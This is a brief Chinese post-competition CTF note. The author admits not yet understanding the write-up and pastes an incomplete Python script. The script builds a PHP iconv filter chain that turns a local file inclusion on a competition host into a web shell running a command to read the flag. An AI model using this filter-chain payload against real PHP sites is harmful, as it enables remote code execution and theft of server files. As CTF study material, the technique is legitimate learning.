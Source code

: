  *赛后*
#lfi2rce
从 LFI 到 RCE，利用filter，这wp还没看懂

先贴脚本

```python
import requests

url = "http://challenges.polycyber.io:8000/addproduct.php"
file_to_use = "/etc/passwd"
command = "cat /opt/4c9ef90fdcdd387456f56cd2d275a7f5"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
```